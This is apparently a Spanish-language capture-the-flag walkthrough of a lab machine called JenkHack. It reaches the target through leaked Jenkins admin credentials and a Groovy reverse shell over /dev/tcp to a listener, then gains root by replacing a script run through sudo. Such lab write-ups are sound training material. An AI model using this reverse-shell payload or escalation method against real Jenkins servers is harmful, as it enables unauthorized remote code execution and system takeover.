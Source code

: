 #MÁQUINA JENKHACK

Lo primero que tendremos que hacer será realizar un escaneo de puertos a la máquina víctima usando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto.JPG)

![NMAP2](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto2.JPG)

Podemos ver que estan abiertos 3 puertos web, el 80, el 443 y el 8080, empezaremos por el puerto 80:

![WEB](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto3.JPG)

A primera vista no vemos nada extraño, sin embargo, si miramos el codigo fuente encontramos lo que pueden ser unas credenciales de un usuario admin:

![CRED](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto4.JPG)

Ademas, si miramos el contenido del puerto 8080 observamos que es el panel de login de Jenkins, asi que vamos a probar esas credenciales a ver si conseguimos entrar:

![ADMIN](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto5.JPG)

Hemos entrado genial, lo siguiente sera buscar informacion sobre como podemos ganar acceso a la maquina una vez hemos conseguido loguearnos. Tras un rato buscando encontre esta pagina que explica paso a paso que hacer:

https://exploit-notes.hdks.org/exploit/web/jenkins-pentesting/

Si seguimos los pasos que nos dice y nos ponemos a la escucha:

```shell
nc -lvnp 4444
```

```shell
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/172.17.0.1/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
![SCRIPT](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto6.JPG)

![IN](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto7.JPG)

Ya estamos dentro de la máquina, por lo que primero que deberemos de hacer será realizar un tratamiento de la tty:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash
```

Una vez tratada la terminal ya podemos empezar a trabajar. Despues de un rato buscando encontre algo dentro del directorio /var/www:

![NOTE](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto8.JPG)

Tenemos la contraseña del usuario jenkhack, sin embargo, esta se encuentra encriptada, para ver el texto original pegaremos la contraseña en la pagina de CyberChef:

https://gchq.github.io/CyberChef/

![CYBER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto9.JPG)

Tenemos contraseña, vamos a probarla:

![USER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto10.JPG)

Ahora somo el usuario jenkhack, ejecutaremos el comando sudo -l para ver si podemos ejecutar algo como root:

![SUDO](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto11.JPG)

Podemos ejecutar bash como root, probamos a hacerlo y... no funciona, pero vemos que ejecuta un comando en otra ruta:

![UY](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto12.JPG)

Iremos a esa ruta a veremos que contiene ese script:

![ALMOST](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto13.JPG)

Es un simple script en bash, por lo que podemos modificarlo para que cuando ejecutemos bash ejecute este script pero modificado por nosotros y de este modo nos convirtamos en root.

Si tratamos de modificarlo vemos que no tenemos permisos para ello, por lo que nos lo cargamos y creamos uno que tenga el mismo nombre (IMPORTANTE) y una vez hayamos escrito el script le daremos permiso de ejecucion con el comando chmod:

![CYBER](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto14.JPG)

Ejecutamos ahora bash como root y...:

![ROOT](https://github.com/Isma-yo/photos/blob/main/JenkHack/foto15.JPG)

Y ya somos root!

